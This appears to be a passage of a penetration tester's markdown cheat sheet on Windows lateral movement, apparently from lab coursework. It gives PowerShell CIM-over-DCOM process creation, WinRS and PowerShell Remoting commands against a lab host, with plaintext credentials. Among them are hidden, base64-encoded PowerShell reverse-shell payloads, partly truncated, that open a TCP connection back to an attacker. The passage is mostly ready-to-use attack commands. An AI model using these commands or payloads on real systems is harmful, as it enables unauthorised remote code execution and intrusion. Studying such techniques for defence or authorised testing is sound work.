 **4) Create CIM object**
```PowerShell
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.141.73 -Credential $credential -SessionOption $Options
```

**5) Invoke CIM Method**
```PowerShell
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

### WinRM 
> Prerequisites: credentials, hash, or ticket. Ports TCP/5985 (HTTP) and/or TCP/5986 (HTTPS)
#### WinRM with WinRS
- Prerequisites: Supplied user must be part of the **Administrators** local group OR **Windows Remote Management** local group (on the target host)

- Simple RCE
```bash
winrs -r:files04 -u:jen -p:Password123!  "cmd /c hostname & whoami"
```
- Reverse shell RCE
	- Can get PowerShell base64 (UTF-16) payload from above
```bash
winrs -r:files04 -u:jen -p:Password123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```
### WinRM with PowerShell Remoting
- Prerequisites: same as above (part of **Administrators** OR **Windows Remote Management** local group)

1) Create PSCredential object
```PowerShell
$username = 'jen';
$password = 'Password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```
1) Invoke `New-PSSession` with PSCredential object
```PowerShell
New-PSSession -ComputerName 192.168.141.73 -Credential $credential
```
1) Enter PSSession
```PowerShell
Enter-PSSession 1
```

---